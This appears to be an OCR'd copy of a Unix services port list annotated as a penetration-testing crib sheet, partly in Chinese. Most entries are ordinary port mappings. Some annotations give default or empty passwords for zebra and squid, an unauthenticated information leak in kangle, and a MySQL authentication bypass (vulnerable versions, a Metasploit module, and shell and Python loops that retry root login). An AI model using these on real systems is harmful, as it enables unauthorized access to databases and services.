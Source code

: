 rtcm-sc104	2101/udp
gsigatekeeper	2119/tcp
gsigatekeeper	2119/udp
DA虚拟主机管理 		2222		direct admin 
gris		2135/tcp		# Grid Resource Information Server
gris		2135/udp
cvspserver	2401/tcp			# CVS client/server operations
cvspserver	2401/udp
venus		2430/tcp			# codacon port
venus		2430/udp			# Venus callback/wbc interface
venus-se	2431/tcp			# tcp side effects
venus-se	2431/udp			# udp sftp side effect
codasrv		2432/tcp			# not used
codasrv		2432/udp			# server port
codasrv-se	2433/tcp			# tcp side effects
codasrv-se	2433/udp			# udp sftp side effect
mon		2583/tcp			# MON traps
mon		2583/udp
zebra 	2601:2604   	#zebra-route  passwd:zebra
dict		2628/tcp			# Dictionary server
dict		2628/udp
f5-globalsite	2792/tcp
f5-globalsite	2792/udp
gsiftp		2811/tcp
gsiftp		2811/udp
gpsd		2947/tcp
gpsd		2947/udp
gds-db		3050/tcp	gds_db		# InterBase server
gds-db		3050/udp	gds_db
squid		3128:3312	空口令；利用错误机制，http-only bypass
icpv2		3130/tcp	icp		# Internet Cache Protocol
icpv2		3130/udp	icp
iscsi-target	3260/tcp
kangle 		3311;3312	无需登录获取用户信息 http://www.wooyun.org/bugs/wooyun-2014-058173/	wooyun-2014-054757	 
mysql		3306/TCP      任意密码登录 All MariaDB and MySQL versions up to 5.1.61, 5.2.11, 5.3.5, 5.5.22 are vulnerable.MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.
 测试方法：use auxiliary/scanner/mysql/mysql_authbypass_hashdump
 测试方法： $ for i in `seq 1 1000`; do mysql -u root --password=bad -h 127.0.0.1 2>/dev/null; done
 测试方法：
```
#!/usr/bin/python
import subprocess
while 1:
        subprocess.Popen("mysql -u root mysql --password=blah", shell=True).wait()
```
mysql		3306/udp
rdp    3389
nut		3493/tcp			# Network UPS Tools
nut		3493/udp
distcc		3632/tcp			# distributed compiler
distcc		3632/udp
daap		3689/tcp			# Digital Audio Access Protocol
daap		3689/udp
svn		3690/tcp	subversion	# Subversion protocol
svn		3690/udp	subversion
suucp		4031/tcp			# UUCP over SSL
suucp		4031/udp
sysrqd		4094/tcp			# sysrq daemon
sysrqd		4094/udp
sieve		4190/tcp			# ManageSieve Protocol
epmd		4369/tcp			# Erlang Port Mapper Daemon
epmd		4369/udp
remctl		4373/tcp		# Remote Authenticated Command Service